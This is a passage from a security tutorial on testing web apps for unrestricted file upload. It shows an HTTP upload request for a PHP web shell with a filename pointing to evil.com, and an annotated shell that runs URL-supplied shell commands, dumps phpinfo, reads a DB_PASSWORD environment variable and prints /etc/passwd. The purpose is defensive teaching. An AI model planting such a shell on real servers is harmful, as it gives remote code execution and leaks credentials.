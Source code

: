 The request could be:
```
POST /index.php HTTP/1.1  
Host: yourdomain.com  
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryXYZ  
  
------WebKitFormBoundaryXYZ  
Content-Disposition: form-data; name="files[]"; filename="https://evil.com/shell.php"  
Content-Type: application/x-php  
  
<?php system($_GET['cmd']); ?>  
------WebKitFormBoundaryXYZ--
```

Then the hacker tries browsing directly to their uploaded file at:
`http://yourserver/uploaded/yourfile.php`

#### **What to look for:**
- Whether frontend and/or backend allowed the script file through.
- If you can **view it easily**, hackers can too.
- As you know, public access is OK _for some files_ (images, etc.), but it's **dangerous for scripts** that can execute and affect the server. Visiting the script in the web browser is enough to affect the server.

#### **What could go wrong**

Say the hacker uploads a php script either through the frontend or through the backend:
```
<?php  
// If a GET parameter "cmd" is set in the URL, execute it as a shell command on the server  
// This gives full Remote Code Execution (RCE) capability to the attacker  
if (isset($_GET['cmd'])) {  
    echo "Executing command: " . $_GET['cmd'] . "<br>";  
    echo "<code>";  
    system($_GET['cmd']);  
    echo "</code>";  
    echo "<br></br>";  
}  
?>  
  
<?php   
// Outputs full PHP configuration: extensions, environment, file paths, etc.  
// Can reveal sensitive settings like file paths, loaded modules, and configuration values  
?>  
<details>  
    <summary>PHP Info</summary>  
    <?php phpinfo(); ?>  
</details>  
<br/>  
  
<?php  
// Attempt to get the value of the DB_PASSWORD environment variable  
// If your app uses env vars for secrets (common in .env files or Docker), this may leak them  
echo getenv("DB_PASSWORD");    
  
// Output the absolute path to the web root directory (e.g., /var/www/html)  
// Helps attacker understand file structure for further traversal or exploitation  
echo $_SERVER['DOCUMENT_ROOT'];   
  
// Read and display the contents of /etc/passwd — a sensitive system file on Linux/Unix  
// Not directly harmful by itself (doesn't contain passwords), but useful for reconnaissance  
echo file_get_contents('/etc/passwd');   
  
// Try to read a configuration file in the parent directory  
// Often contains sensitive data like DB usernames/passwords if the file is accessible  
```